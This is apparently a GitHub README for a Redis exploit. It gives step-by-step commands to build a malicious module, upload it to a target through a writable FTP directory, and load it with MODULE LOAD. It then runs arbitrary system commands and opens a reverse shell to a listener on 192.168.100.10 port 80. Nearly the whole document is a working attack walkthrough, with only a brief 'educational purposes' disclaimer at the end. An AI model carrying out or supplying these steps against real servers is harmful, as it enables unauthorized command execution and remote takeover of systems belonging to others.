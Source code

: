 # Redis Server Module Load Command Execution

# Usage
## compile module.so
```bash
git clone https://github.com/binaryxploit/redis-module-load-cmd-exec.git
cd ./redis-module-load-cmd-exec
make
```
## Find a way to upload module.so - POC
- Example: 
- ftp access with writable pub directory.
- PATH `/var/ftp/pub/`
```
ftp> put module.so
```
## Load the module via `redis-cli` tool for command execution
```bash
# Required tools
sudo apt-get install redis-tools -y

# Load module.so form uploaded path
REDIS-CLI:6379> MODULE LOAD /var/ftp/pub/module.so

# List Loaded modules
REDIS-CLI:6379> MODULE LIST

# Command Execution
REDIS-CLI:6379> system.exec "id"

# Reverse Shell
nc -nvlp 80
REDIS-CLI:6379> system.rev 192.168.100.10 80
```
---
This Exploit is an aggregation of below exploits made for understanding and educational purposes.
- Credits:
  - https://github.com/RedisLabsModules/RedisModulesSDK
  - https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
